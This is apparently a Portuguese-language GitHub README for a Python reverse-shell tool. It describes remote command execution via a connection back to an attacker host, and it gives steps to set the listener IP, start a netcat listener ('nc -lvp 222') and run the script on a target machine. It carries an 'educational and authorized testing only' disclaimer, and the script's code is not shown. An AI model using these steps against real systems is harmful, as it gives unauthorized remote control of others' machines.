<p align="center">
  <img src="https://cdn.invicti.com/app/uploads/2022/06/28121045/understanding-reverse-shells-768x403.webp" width="600"/>
</p>

<h1 align="center">🐍 Reverse Shell em Python</h1>
<p align="center">
  Ferramenta simples e eficaz para execução remota de comandos via conexão reversa.
</p>

---

## 👤 Autor

**Miguel Vasco**

Desenvolvedor entusiasta de segurança ofensiva, automações e exploração de sistemas.

---

## ⚙️ Funcionalidades

- Estabelece uma **conexão reversa** com o host atacante.
- Permite a **execução remota de comandos**.
- Código limpo, direto e de fácil customização.

---

## 🚀 Como Usar

1. **Clone o repositório:**
    ```bash
    git clone https://github.com/Miguel-Vasco7/reverse_shell.py.git
    cd reverse_shell.py
    ```

2. **Configure o IP alvo:**
   - Edite o arquivo `reverse_shell.py` e substitua:
     ```python
     HOST = "<ip_do_listener>"
     PORT = 222
     ```

3. **Inicie o listener (máquina atacante):**
    ```bash
    nc -lvp 222
    ```

4. **Execute o script na máquina alvo:**
    ```bash
    python3 reverse_shell.py
    ```

---

## ⚠️ Aviso Legal

> Esta ferramenta foi desenvolvida **exclusivamente para fins educacionais e testes autorizados**. O uso não autorizado em sistemas alheios é **ilegal** e **antiético**. O autor **não se responsabiliza** por qualquer uso indevido.

---

## 🤝 Contribuições

Contribuições são sempre bem-vindas!  
Sinta-se à vontade para abrir uma **issue** ou enviar um **pull request**.


